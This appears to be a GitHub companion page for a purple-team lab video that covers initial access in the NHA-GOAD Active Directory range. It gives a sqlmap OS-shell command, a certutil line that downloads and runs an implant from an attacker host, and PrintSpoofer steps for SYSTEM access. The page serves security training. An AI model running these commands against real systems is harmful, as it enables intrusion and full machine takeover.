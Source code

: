 ## **05 - Initial Access - Purple Team Cyber Range with NHA-GOAD**

This GitHub page is a companion to the fifth video in our **Purple Team Cyber Range** series, where we explore how to gain **initial access** using techniques such as **SQL injection** and other offensive tactics in the **NHA-GOAD** Active Directory lab environment. The lab is designed for attack and defense exercises, providing a realistic experience for both red and blue teams.

## 📺 **Watch the Video**

**Video Title**: _05 - Initial Access - Purple Team Cyber Range with NHA-GOAD_  
[Watch the video on YouTube](https://www.perplexity.ai/search/hello-jPst_9ZTTs.NcfMh.UjY1g#) (Placeholder for video link)

## 🛠️ **Key Takeaways**

1. **Initial Recon and Access**:
    
    - We start by performing a network scan using **Nmap** to identify open ports and services on the target machines.
    - After identifying potential vulnerabilities, we exploit them using **SQL injection** to gain initial access to the system.
    
2. **SQL Injection Exploitation**:
    
    - Learn how to use **SQLMap** to automate SQL injection attacks and gain access to the target database.
    - We also demonstrate how to escalate from SQL injection to an OS shell on the target machine.
    
3. **Command and Control (C2) Setup**:
    
    - Once initial access is gained, we set up a **Sliver C2 server** to manage the compromised machines.
    - We use reverse shells and other techniques to maintain persistent access.
    
4. **Privilege Escalation**:
    
    - After gaining initial access, we escalate privileges using tools like **SweetPotato** to obtain SYSTEM-level access.
    

## 📚 **Resources**

Here are some useful resources mentioned in the video:

- [NHA-GOAD Guide](https://docs.ludus.cloud/docs/environment-guides/goad-nha): Official documentation on setting up NHA-GOAD.
- [Elastic SIEM Guide](https://docs.ludus.cloud/docs/environment-guides/elastic): Guide on integrating Elastic Security SIEM.
- [GOAD GitHub Repository](https://github.com/Orange-Cyberdefense/GOAD): Source code and more information about GOAD from Orange Cyberdefense.

## Previous Videos:

- [Video 1: How to Deploy a Cyber Range Using Ludus: NHA-GOAD for Purple Teaming & Elastic Security SIEM](https://youtu.be/cjTzWQ_Si3U)
- [Video 2: How to Connect to Ludus GOAD with Elastic Using WireGuard](https://youtu.be/fM65Mm011bg)
- [Video 3: Testing Our Lab Against Default Sliver C2 Implants - The Lab Works!](https://youtu.be/L5DtvxOriOU)
- [Video 4: How to Install Sysmon in Active Directory Lab on Ludus](https://youtu.be/bK5Tnf92O-Y)

## 🚀 **Getting Started**

## 1. **Network Scanning**

Start by scanning the network to identify live hosts and open ports:



`nmap -p- -sC -sV 10.2.10.0/24 -Pn -oA allports.nmap`

![](../../05%20Images/Pasted%20image%2020241109225509.png)

This command performs a full port scan (`-p-`), service detection (`-sV`), and saves the results in multiple formats (`-oA`).

## 2. **SQL Injection Exploitation**

Once you've identified a vulnerable web server, use SQLMap to exploit SQL injection vulnerabilities:

`sqlmap -u "http://10.3.10.32/Students?SearchString=a&orderBy=Firstname" --os-shell --batch --threads 10`

This command attempts SQL injection on the specified URL and attempts to gain an OS shell.

## 3. **Command and Control (C2) Setup**


### Upload using sql shell
```
certutil.exe -split -f -urlcache http://10.2.10.99:8080/backup.exe 

#execute backup.exe
c:\windows\tasks\backup.exe
```

After gaining an OS shell, set up a reverse shell for persistent access:

`xfreerdp /v:10.2.10.32 /u:localuser /p:'password' /cert:ignore +clipboard /dynamic-resolution`

Use this command to connect remotely via RDP once credentials are obtained.

## 4. **Privilege Escalation**

To escalate privileges, upload a tool like SweetPotato or PrintSpoofer:

`upload /home/kali/payloads/PrintSpoofer.exe C:\\Windows\\Tasks\\PrintSpoofer.exe 
`execute -o "C:\windows\Tasks\PrintSpoofer.exe -i -c C:\Windows\Tasks\backup.exe"`

This command runs the PrintSpoofer tool, allowing you to escalate privileges from a local user account to SYSTEM.

![](../../05%20Images/Pasted%20image%2020241109225535.png)

## ⚠️ **Disclaimer**

This project is intended for **educational purposes only**. The tools and techniques demonstrated should only be used in environments where you have explicit permission to perform penetration testing or security assessments. Unauthorized use of these tools may violate laws and regulations.

## 🔧 **Tools Used**

- **Ludus Platform**: A cloud-based platform for deploying cybersecurity labs.
- **NHA-GOAD**: A pre-configured Active Directory environment designed for attack and defense simulations.
- **SQLMap**: An open-source tool used for automating SQL injection attacks.
- **Sliver C2 Framework**: An open-source command-and-control framework used by attackers for post-exploitation tasks.
- **SweetPotato/PrintSpoofer**: Tools used for privilege escalation on Windows systems.

Thank you for visiting! Be sure to subscribe to [I.T Security Labs on YouTube](https://www.youtube.com/@ITSecurityLabs) for more tutorials and updates!